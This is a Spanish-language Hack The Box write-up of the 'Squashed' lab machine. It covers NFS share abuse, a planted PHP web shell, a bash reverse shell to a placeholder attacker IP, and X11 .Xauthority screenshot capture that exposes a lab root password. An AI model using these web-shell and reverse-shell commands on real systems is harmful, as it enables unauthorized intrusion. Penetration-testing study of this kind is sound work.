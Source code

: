 ```yaml
---
layout: single
title: Squashed - Hack The Box
excerpt: "En esta maquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario." 
date: 2023-04-17
classes: wide
header:
  teaser: /assets/images/HTB/writeup-squashed/Squashed.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Easy
  - CFTs
tags:
  - Privilege Escalation
  - Pentesting
  - Linux
  - NFS mount
---
```


![](/assets/images/HTB/writeup-squashed/Squashed.png)
    
    
    
## Introducción 


En esta maquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario.



## Reconocimiento de Puertos [🔍]

Como siempre antes de escanear los puertos con **Nmap** le hacemos un <span style="color:red"> ping </span> a la maquina victima para ver si esta viva y nos responde.


![](/assets/images/HTB/writeup-squashed/TrazaICMP.png)


En este caso nos responde y me arroja una **TTL** de 63, por lo que acercarse a 64, me enfrento a una maquina <span style="color:green"> Linux </span>.

| TTL    | Sistema Operativo | 
| :----- | :------- | 
| 64     | Linux    | 



Una vez que ya me comunique con la maquina y extraje el dato que es se trata de una maquina Linux, procedo a desplegar la herramienta Nmap.


```bash
# Primer con nmap  para sacar los puertos abiertos de la máquina
--------------------------------------------------------------
nmap -p- -n --open -sV --min-rate 5000 -vvv -n -Pn 10.10.11.191 
```

![](/assets/images/HTB/writeup-squashed/nmap1.png)


```bash
# Segundo escaneo con los scripts default de nmap y tambien sacamos  la Versión y Servicio que tiran los puertos escaneados anteriormente 
--------------------------------------------------------------
nmap -sC -sV -p22,80,111,2049,39033 10.10.11.191
```

![](/assets/images/HTB/writeup-squashed/nmap2.png)


## Puerto 2049 


Por lo que veo, obtengo esta información y me doy cuenta que hay petisiones **nfs** en el **Puerto 2049**, al ser mi primera maquina de <span style="color:green"> HackTheBox </span>, acudo a <span style="color:red"> HackTricks </span>
para saber sobre NFS.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)



```bash
# Primero hay que avriguar  que carpetas tiene el servidor disponibles para montar, lo averiguamos con este comando
--------------------------------------------------------------------------------
showmount -e <IP>
```

![](/assets/images/HTB/writeup-squashed/showmount.png)

Obtengo estos dos directorios:

|  /home/ross  |  /var/www/html  |

Y para montar estos dos directorios, me creo dos directorios llamados **/mnt/ross** y **/mnt/web_server** en el directorio **/mnt** y luego los monto.


```bash
# Creo los directorios
----------------------
sudo mkdir /mnt/ross
sudo mkdir /mnt/web_server
# Monto los directorios en cada carpeta
sudo mount 10.10.11.191:/home/ross /mnt/ross
sudo mount 10.10.11.191:/var/www/html /mnt/web_server
```

Una vez que hecho esto, listo los directorios a ver que encuentro...


![](/assets/images/HTB/writeup-squashed/listadodedirectorios.png)


Veo que existe un archivo  <span style="color:red">Passwords.kdbx</span> que  básicamente su extension <span style="color:red">.kdbx</span> indica que es la base de datos que usa keepass para almacenar las contraseñas, tambien se ve que en directorio **./we_server** no despliega nada, voy a ver si puedo acceder a el...


![](/assets/images/HTB/writeup-squashed/cdwebserver.png)

Ok no tengo acceso a el, voy a ver que usuario tiene acceso el directorio.


![](/assets/images/HTB/writeup-squashed/usuarioquetieneprivilegio.png)

Ok pensando un poco podria burlar el **user1** creando uno en mi maquina. 


![](/assets/images/HTB/writeup-squashed/directorioswebserver.png)

Como estoy en el directorio del servidor web y veo el archivo **index.html** , probare intentar cargar un archivo .php para poder poder ejecutar cualquier comando en la **URL**.

```bash
# Script php
----------------------
<?php   
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Una ves ejecutado este script puedo ejecutar cualquier comando en la URL

![](/assets/images/HTB/writeup-squashed/cmd=ls-l.png)

Entonces puedo crear una Reverse Shell, pero antes me pongo en escucha con el puerto 1337 (en mi caso)



```bash
# Reverse Shell, encodear co el signo % al signo &
----------------------
bash -c "bash -i >%26 /dev/tcp/<IP ATACANTE>/1337 0>%261"
```

![](/assets/images/HTB/writeup-squashed/reverseshell.png)

Antes de continuar actualizo la tty. 

```bash
> script /dev/null -c bash
--------------------------
> Ctrl+z
--------------------------
> stty raw -echo; fg 
        reset xterm
--------------------------
export TERM=xterm
export SHELL=bash
```



## Escalada de Privilegios .Xauthority ☣️


Para <span style="color:red">conseguir la escalada de privilegios sigo estos pasos</span>:

* Primero me creo otro usuario para tener acceso al archivo .Xauthority.

* Pero no tegno acceso al archivo. 


![](/assets/images/HTB/writeup-squashed/usuarioquetieneprivilegio.png)

* Monto un servidor http con python3 en el puerto 8080 en el usuario que me cree hace un momento.

```bash
# Servidor python3 
------------------
python3 -m http.server 8080
```

* Una vez ya descargado el archivo **.Xauthority**, con ayuda HackTricks busco el comando para poder leer dicho archivo.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11)


No lo puedo leer, entonces saco un screenshot a la seccion keepas abierta del usuario. 



```bash
# Ejecuto el comando sacado de HakcTricks y lo guardo como archivo screenshot.xwd
------------------
xwd -root -screen -silent -display :0 > screenshot.xwd
```


![](/assets/images/HTB/writeup-squashed/Screenshotxwd.png)


Lo siguiente que hago es migrar a mi usuario de Kali para ponerme en escucha en el puerto 443, haci enviarme el archivo screenshot.xwd, dicho archivo se encuentra en el usuario **alex**.


```bash
# Covierto el archivo .xwd a .png (esto comando se encuentra en HackTricks, el enlace anteriormente mencionado)
------------------
convert screenshot.xwd screenshot.png
```


![](/assets/images/HTB/writeup-squashed/convert.png)

Abro el screenshot y listo ahi se ve la **password**.


![](/assets/images/HTB/writeup-squashed/screenshot.png)


Por ultimo me dirijo al usuario alex y con las **password** <span style="color:red">cah$mei7rai9A</span> para comvertirme en usuario **root**.


![](/assets/images/HTB/writeup-squashed/rootalex.png)

Ya tenemos acceso a la <span style="color:red"> **Flag**.
  
  
  

